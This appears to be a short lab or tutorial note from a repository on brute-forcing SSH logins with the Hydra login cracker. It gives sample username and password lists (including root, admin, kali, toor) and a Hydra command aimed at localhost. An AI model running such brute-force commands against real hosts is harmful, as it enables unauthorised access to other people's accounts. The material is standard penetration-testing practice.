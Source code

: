 # SSH Bruteforce 

|Tool | Details|
|---|---|
|Hydra|Hydra is a parallelized network login cracker|

---

## using hydra to bruteforce our SSH logins:

user.txt
--------

admin

root

kali

mentor

praveen

anmol

pass.txt
--------

kali

toor

---

command:

```bash
hydra -L user.txt -P pass.txt ssh://localhost 

-L : userID file
-P : Password file 
```
